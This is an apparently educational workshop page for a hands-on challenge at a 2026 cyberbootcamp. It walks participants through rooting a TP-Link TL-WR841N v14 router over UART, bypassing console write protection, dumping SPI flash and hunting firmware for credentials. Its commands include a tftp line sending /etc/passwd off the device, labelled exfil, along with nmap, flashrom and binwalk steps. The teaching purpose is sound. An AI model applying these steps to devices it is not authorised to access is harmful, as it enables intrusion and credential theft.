

Nine times out of ten it's TX/RX swapped. Flip the two signal wires. Also confirm a common ground between adapter and board, and that the baud is 115200. If the board never boots when the adapter's attached, you may have wired VCC. Disconnect it.
HACK THE
ROUTER
Take a ten-euro router apart until it gives up a root shell: find the debug pads, break in over UART, and lift its firmware straight off the flash chip. A hands-on challenge at the Challenge the Cyber cyberbootcamp 2026, by Warpnet & Roald Nefs.
[OK] target_detected ........ TP-Link TL-WR841N v14
[OK] uart_adapter ........... CP2102 USB-TTL
[OK] flash_programmer ....... CH341A (SPI)
[!!] warranty_void .......... true (that's the point)
begin_workshop --solder-optional=false
Stuck mid-challenge? Scroll past the challenges for the quick reference (pinouts, baud, commands) and troubleshooting / FAQ.


The full kit, and a TL-WR841N cracked open with a logic analyzer on its UART header.
First time? Start here
Every cheap home router is a full Linux computer hiding in a plastic box: a CPU, some RAM, a flash chip holding the firmware, and a few debug pads the manufacturer forgot to lock down. Hardware hacking is the art of talking to that hidden computer directly: reading its serial console, dumping its flash, and pulling the firmware apart to see how it really works. People do it for security research, for repair and repurposing, to run open firmware like OpenWrt, or just to learn how the little box on the shelf actually thinks.
Why a router?
A budget SOHO router is the perfect first target. It's cheap (a tenner second-hand), it can't hurt you, and it makes almost every classic beginner mistake: an unlocked UART that drops you to a root shell, an unencrypted SPI flash you can read with a clip, and a stock Linux userland full of interesting files. Brick it? Re-flash it from the SPI dump and start over. Worst case you're out a ten-euro router.
Your target: TP-Link TL-WR841N v14
A wildly common 300 Mbps N router. It's a small embedded SoC with SPI NOR flash and some RAM, booting U-Boot into a Linux firmware. That's the whole stack you'll pull apart today.
⚠ Hardware revisions differ
The TL-WR841N shipped in many hardware versions (…v13, v14…) and the SoC, flash chip, pad layout, and firmware all vary between them. Bench boards are v14, but everything below is still a starting point, so read the markings on your own board and verify by observation. That's half the challenge.
The loop you'll repeat
- 01
- Recon · OSINT the model: FCC filings, datasheets, stock firmware.
- 02
- Open · screwdriver off the case, eyes on the board.
- 03
- Probe · multimeter + logic analyzer to find the debug pads.
- 04
- Interface · solder a header, talk UART, get a shell.
- 05
- Extract · TFTP files out, or clip the flash and dump it.
- 06
- Analyze · binwalk the image, hunt for secrets.
// Don't memorise this
This page is a tour, not a textbook. Skim what you need for the challenge you're on and come back later. Every section links to the quick reference for the exact commands and pinouts.
Your kit
At your station you'll find a TL-WR841N v14 target board, a host laptop, and the following tools. Grab what a challenge calls for:
| Tool | What it's for |
|---|---|
| CP2102 USB-UART adapter | Bridges the board's 3.3V serial console to a USB port → your terminal |
| Digital multimeter | Continuity to find GND; DC volts to spot VCC, identify the UART pads |
| Logic analyzer (8CH, 24MHz) | Confirm which pad is TX by watching it chatter on boot; decode the UART |
| CH341A USB programmer | Reads/writes the SPI flash chip directly via a SOIC-8 clip |
| Screwdriver | Open the case; there's usually a screw hiding under a rubber foot or label |
| Male header pins | Solder into the UART pads so you can attach jumper wires cleanly |
| Soldering station | Tack the header pins in place, a few clean joints, not a sculpture |
| Jumper wires | Connect adapter ↔ board (Dupont F-F are handy for headers) |
UART @ 115200 8N1
3.3V LOGIC
MIND THE 5V
⚠ Disclaimer
Educational purposes only. These are lab boards you're allowed to break. Only hack hardware you own. The board runs on 3.3V logic. The CP2102's TX and the CH341A's data lines can be 5V, which will damage the SoC or flash. Never connect the adapter's VCC line to a board that already has its own power. Ask a volunteer if you're unsure.
Challenges
Work through these at your own pace, roughly top to bottom, since each section builds on the last. Bring your sheet to the desk when you've cleared a few; there are stickers.
Section 1 // Initial recon & OSINT
Before you pick up a screwdriver, learn everything the internet already knows about this box.
Challenge 01 // Hardware OSINT & FCC ID
Every device sold in the US carries an FCC ID, and the FCC publishes the manufacturer's filing: external photos, RF test reports, and user manuals. When the vendor doesn't ask for confidentiality you also get internal photos, block diagrams, and schematics, a free teardown before you even open the box.
Flip the router over. The FCC ID is printed on the label. TP-Link's newer grantee code is 2AXJ4, so the ID reads 2AXJ4-WR841NV14. Look it up on fcc.io or fccid.io. Heads-up: for this device TP-Link filed the internals as confidential, so you'll find external photos and confidentiality letters, not internal shots. Spotting what's withheld is part of the recon.
Challenge 02 // Embedded system components
Open the case and read the board like a map. The three chips that matter: the SoC (the CPU), the RAM, and the SPI flash (where the firmware lives). Every chip has its part number printed on top. A phone torch and a macro photo help.
Challenge 03 // Locating & reading datasheets
A part number is a key. Search it and you get the datasheet, the chip's own manual. For the flash you want pin 1, the operating voltage, and the READ opcode; for the SoC you want the UART pins and boot-strap behaviour.
Challenge 04 // Locating firmware online
You don't have to extract the firmware to start reading it. TP-Link hands it out. The Download Center has the stock .bin, and the GPL Code Center has the open-source parts. Match the file to your exact hardware version (TL-WR841N V14).
Downloads are locked to both region and hardware revision, so grab the EU · V14 build, not just any TL-WR841N image. The oldest V14 EU release makes a handy baseline: TL-WR841N(EU)_V14_180319 (unzip for the .bin).
Challenge 05 // Network setup
Power the router up on the bench and get onto its LAN. Out of the box it's a DHCP server; reach the admin UI at http://tplinkwifi.net (the URL on the label) or its IP 192.168.0.1.
Challenge 06 // NMAP scans
What's actually listening? Point nmap at the router. Don't stop at the default 1000 ports. Scan the full range, then fingerprint the services.
# full TCP sweep + service/version detection nmap -p- -sV 192.168.0.1
Section 2 // UART shell & live enumeration
Time to talk to the hidden computer directly. The UART is a serial console the firmware prints to. You'll wire it up and read the boot log, meet the write protection that stops you typing, then defeat it to land an interactive root shell.
→
How the UART connects
The board exposes 4 pads: GND, VCC, TX (board talks), RX (board listens). You cross TX and RX, share ground, and leave VCC alone. The board powers itself.
| CP2102 pin | Board pad | Note |
|---|---|---|
| RX | TX | board's output → adapter's input |
| TX | RX | adapter's output → board's input |
| GND | GND | common ground, required |
| 3V3 | ✗ VCC | do not connect, board is self-powered |
⚠ 3.3V only
Set the CP2102 jumper to 3.3V, never 5V. Feeding 5V into the 3.3V UART can kill the SoC.
Challenge 07 // Open and read the serial console
Find the pads, wire them up, and open a console to read what the board prints. Which pad is which? GND shows continuity to a known ground (multimeter, continuity mode). VCC sits at a steady 3.3V. TX flickers with data the instant the board boots, so catch it with the logic analyzer (or a multimeter twitching on DC volts). Whatever's left is RX.
# open the console once wired (Linux) picocom -b 115200 /dev/ttyUSB0 # or: screen /dev/ttyUSB0 115200
Power-cycle the board and watch it boot. The log is a goldmine: bootloader version, memory map, flash partition offsets, kernel command line, and which services start. All of it just by reading, no typing required.
The write protection
Reading works. Now try typing into the console: on these boards, nothing happens. The console is write-protected, in up to two layers.
Hardware. A pull-down resistor (R18, ~1kΩ, on these v14 boards) sits on the UART RX line and holds it low, so the adapter's signal never rises high enough to register and the board ignores anything you type. The resistor can simply be removed to restore input. Ask a volunteer to help you desolder it.

Software. Beyond the resistor, some newer firmware locks the console in software too: even with RX electrically fixed, a locked build refuses to drop a shell. This is verified on later v14 builds. The way around it is an older firmware that doesn't lock the console, like the oldest V14 EU build linked in Challenge 04.
Challenge 08 // Write to the console
Make the board listen. Beat the hardware protection, then get a foothold: interrupt the bootloader on the way up, or land in the firmware's shell. Most U-Boot builds let you interrupt the boot by mashing a key (often any key, or tpl/Esc) during the countdown to drop to the => prompt.
# at the U-Boot prompt printenv # boot args, bootcmd, flash layout bdinfo # board info: RAM, clocks
Challenge 09 // Using TFTP to exfil files CAUTION
Once you have a shell, get files off the box. The BusyBox userland ships a tftp client, so stand up a TFTP server on your laptop and push files to it, no SD card, no USB, just the network.
# on the router shell: push a file to your host tftp -p -l /etc/passwd 192.168.0.100 # -p = put, -l = local file, then the host IP
Section 3 // SPI & firmware extraction
The UART gives you a running filesystem. The SPI flash gives you everything: bootloader, kernel, rootfs, and the config partition, byte for byte, whether the OS wants to show it to you or not.
Challenge 10 // Dump the SPI flash CAUTION
Clip the CH341A onto the SOIC-8 flash chip and read it. Line up pin 1 (the dot on the chip) with pin 1 of the clip. Read the whole chip twice and compare. A clip that's slightly off gives a dump that changes between reads.
# read the flash with flashrom via the CH341A flashrom -p ch341a_spi -r dump1.bin flashrom -p ch341a_spi -r dump2.bin sha256sum dump1.bin dump2.bin # must match
⚠ The CH341A 5V flaw
Many CH341A boards drive their data lines at 5V even in "3.3V" mode, enough to stress a 3.3V flash over time. Use a 3.3V-modded programmer or a level-safe adapter if one's provided, and power the board off before clipping on.
Challenge 11 // Analyze the firmware
You have a raw flash image. Now take it apart. binwalk spots the bootloader, the kernel (uImage), and the SquashFS root filesystem, and can carve them out. Mount or browse the rootfs and go hunting: password hashes in /etc/passwd & /etc/shadow, keys and certs, telnet/backdoor scripts, hardcoded Wi-Fi or admin creds.
# extract everything binwalk recognises binwalk -e dump1.bin # then dig through the carved squashfs-root/ grep -R "password" squashfs-root/etc
Diff your extracted rootfs against the vendor firmware from Challenge 04. Differences are where the config, calibration, and secrets live.
Quick reference
UART
| Setting | Value |
|---|---|
| Baud | 115200 |
| Framing | 8N1 |
| Logic level | 3.3V TTL |
| Wiring | adapter RX ← board TX · adapter TX → board RX · GND↔GND · VCC not connected |
SPI flash (SOIC-8, 3.3V)
┌──────┐ CS ──┤1• 8├── VCC (3V3) # pin 1 = dot corner DO ──┤2 7├── HOLD WP ──┤3 6├── CLK GND ──┤4 5├── DI └──────┘
Commands
# serial console picocom -b 115200 /dev/ttyUSB0 # network recon nmap -p- -sV 192.168.0.1 # TFTP server on host (one option) sudo dnsmasq --enable-tftp --tftp-root=/srv/tftp -d # dump + analyse flash flashrom -p ch341a_spi -r dump.bin binwalk -e dump.bin
Handy facts
| Admin UI / LAN IP | tplinkwifi.net · 192.168.0.1 |
| TP-Link FCC grantee code | 2AXJ4 |
| Bootloader | U-Boot |
Exact pinouts, chips, and offsets vary by hardware revision. Verify against your board. That's the whole game.
Troubleshooting
Console connects but shows nothing (or freezes on boot)
Boot log is garbled / random characters
That's a baud mismatch. Most of these boards are 115200, but a few use 57600. Try 57600, and make sure framing is 8N1. Garbage that's rhythmic with the boot is almost always the wrong baud, not bad wiring.
flashrom can't find the chip / reads all 0xFF or 0x00
The clip isn't making contact on every pin. Reseat it and check pin 1 alignment (the dot). Power the board off before dumping; a powered board fights the programmer. If flashrom sees the chip but reads look wrong, suspect the CH341A's 5V data-line issue and use a 3.3V-safe programmer.
TFTP transfer just hangs
The router can't reach your TFTP server. Check you're on the same subnet, the host firewall allows UDP/69, the tftp-root exists and is writable, and you're pointing at your host's actual IP (not the router's).
I want to do this at home
The whole kit lands around €40–€70: a TL-WR841N (or any cheap junkyard router) for a tenner, a CP2102 adapter and a CH341A programmer with a SOIC-8 clip for a few euro each, and a basic multimeter. A cheap 8-channel logic analyzer is optional but makes finding TX painless. Everything else (binwalk, flashrom, nmap, picocom) is free.
Your score
// Total points captured
0
/ 0 pts
👑
Firmware Overlord
// All objectives captured. The router is yours, byte for byte.
Brag about it
Popped a shell, dumped the flash, earned the rank? Post about it on LinkedIn. Here's who to tag and what to link.
Going deeper
- → TL-WR841N-v14 · UART root, TFTP & SPI extraction walkthrough (exact model)
- → Hardware Reversing with the TP-Link TL-WR841N · ZDI MindShaRE
- → fcc.io · FCC ID lookup (photos, test reports & filings)
- → binwalk · firmware analysis & extraction
- → flashrom · read/write SPI flash chips
- → OpenWrt · TL-WR841N device page
- → The Hardware Hacking Handbook · Woudenberg & O'Flynn